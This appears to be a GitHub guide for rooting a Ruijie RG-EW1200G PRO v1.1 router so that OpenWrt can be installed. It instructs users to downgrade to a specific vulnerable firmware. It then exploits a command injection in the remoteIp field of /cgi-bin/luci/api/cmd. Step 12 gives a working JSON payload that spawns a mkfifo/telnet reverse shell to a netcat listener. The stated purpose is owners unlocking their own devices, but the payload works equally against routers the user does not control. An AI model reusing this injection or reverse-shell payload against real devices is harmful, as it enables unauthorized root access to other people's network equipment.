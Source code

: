 Instructions to gain rootshell on Ruijie RG-EW1200G PRO v1.1 routers for openwrt installation

<h1>Source:</h1>  
   
https://gist.github.com/ZIKH26/18693c67ee7d2f8d2c60231b19194c37  
https://bbs.kanxue.com/thread-280448.htm  

**Disclaimer: Proceeding with these instructions using the firmware provided may cause your Ruijie RG-EW1200G PRO v1.1 router to brick.
Please read through carefully and exercise extreme caution.
By using any of the resources and instructions provided, all risks and responsibilities will be solely on the user.
It is recommended to save and backup your existing configuration and working firmware before proceeding any further.**

Specific firmware version (EW_3.0(1)B11P219_EW1200GI_10182113) is required for a command injection vulnerability using http post on /cgi-bin/luci/api/cmd via the remoteIp field.  
The working firmware for this is as attached.
[RG-EW1200G PRO Wireless Routers EW_3.0(1)B11P219 firmware.zip](https://github.com/user-attachments/files/18793087/RG-EW1200G.PRO.Wireless.Routers.EW_3.0.1.B11P219.firmware.zip)

<h1>Step by step instructions:</h1>  

1. Make sure the working firmware (EW_3.0(1)B11P219_EW1200GI_10182113) is installed on your Ruijie RG-EW1200G PRO v1.1 router before proceeding. Just login to the router's UI on a web browser and use the upgrade function.
2. Install Mozilla Firefox and HackBar extension https://addons.mozilla.org/en-US/firefox/addon/hackbar/
3. Download nc64.exe from https://github.com/int0x33/nc.exe/
4. Place nc64.exe at an easy to access drive or folder, for example drive D
5. Open windows powershell, navigate to drive D with command 'cd D:'  
   ![image](https://github.com/user-attachments/assets/3e6156c5-4661-4561-bb79-39dda7f195c9)
6. Start netcat lookup on port 666 with command '.\nc64.exe -lvvp 6666'
7. Go to your Ruijie RG-EW1200G PRO v1.1 router UI page by typing in the router IP on Mozilla Firefox
8. Login and open up the developer console (F12) and select the network tab  
   ![image](https://github.com/user-attachments/assets/5501998d-ffee-418f-a2a6-a0f40761c369)
9. Look for the auth code and copy the full URL with path /cgi-bin/luci/api/cmd as shown above
10. On the developer console top tab, select HackBar (might have to expand the tab to see HackBar)
11. Paste the URL copied in step 9 in the URL form, enable Use POST method and select application/json for post type  
    ![image](https://github.com/user-attachments/assets/68cc58f5-d32e-4de6-9d81-2c3470d276c0)
12. Enter the below code into the Body content and click EXECUTE
```
{
    "method": "devConfig.get",
    "params": {
        "module": "123",
        "remoteIp": "$(mkfifo /tmp/test;telnet <your windows machine ip> 6666 0</tmp/test|/bin/sh > /tmp/test)",
        "data": {
            "kkk": "abc"
        }
    }
}
```
13. If everything is executed correctly, the tab should load and send out the http post  
    ![image](https://github.com/user-attachments/assets/7b66c4c8-09a7-4fb9-8abf-d8af139035c1)
14. On the powershell window, there should be a response from the netcat lookup  
    ![image](https://github.com/user-attachments/assets/1c96ac98-a5be-4d12-a167-648be028b629)
15. Type 'pwd' then enter, followed by 'ls' to list the exposed folders and lastly 'id' to check for root access
16. If the rootshell process is done correctly, the response should be similar to the above image

<h1>Extra Notes:</h1>  

1. Make sure port 6666 is open on all firewalls on your network
2. This should work on linux as well using 'nc -lvvp 6666' but it didn't work for my case on both Proxmox and Ubuntu and currently the reasons are unknown
3. If the upgrade feature to install the specific firmware doesn't work, try resetting the router and try again
